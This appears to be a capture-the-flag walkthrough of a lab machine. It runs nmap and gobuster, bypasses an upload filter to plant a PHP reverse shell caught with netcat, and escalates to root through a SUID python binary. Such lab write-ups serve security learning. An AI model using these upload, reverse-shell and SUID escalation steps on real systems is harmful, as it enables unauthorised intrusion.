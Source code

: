 
#my ip : X.X.X.X 
machine : 10.10.236.241

SCANNING
========
intial scan :
└─$ nmap -sV -v -Pn 10.10.236.241  -oN nmap/intial

22/tcp   open     ssh                                                                                                         
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu)) 

#it seems we only have the webpage to look into but let's run full scan in the background just in case it is helpless

└─$ nmap -sV -v -Pn -p- -sC 10.10.236.241  -oN nmap/all


ENUMRATION
===========

└─$ gobuster dir -u "http://10.10.236.241/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt

```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.236.241/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.236.241/panel/]  

```

#found upload page at /panel so let's try upload a shell !

#pentester monkey php reverse shell is a great one :

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#let's upload it and check if there is filteration techniques on uploading files 
#it doesn't accecpt php files :)
#let's check /uploads maybe it is uploaded and checked at their side !
#it is not :(
#let's try some modification on extenstion

phtml, .php, .php3, .php4, .php5, and .inc

EXPLOITAION
===========
#trying phtml and changing ip in the code 
# it is uploaded ! , and you can find it in the uploads section !
#set a listener 
$nc -lvp 1234 #my port
and execute it at uploads page 
=============================
   NOW WE HAVE A SHELL !
=============================
as www-data 
#to get stable shell 
$ python3 -c "import pty ; pty.spawn('/bin/bash')"

get user flag :
$find / -name user.txt

now we need privilege escalation :
----------------------------------

sudo -l  #need our passs which we don't know :(
-rw-r--r-- 1 root root 1603 Aug  4  2020 /etc/passwd
-rw-r----- 1 root shadow 1157 Aug  4  2020 /etc/shadow

suid
======
SUID, the special permission for the user access level has a single function: 
A file with SUID always executes as the user who owns the file, regardless of the user passing the command. 

check for suid premissions :
-----------------------------
$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

weird file
------------
/usr/bin/python

visiting https://gtfobins.github.io/gtfobins/python/#suid


/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'



now we are root !
# find / -name root.txt

and get the final flag  :) 

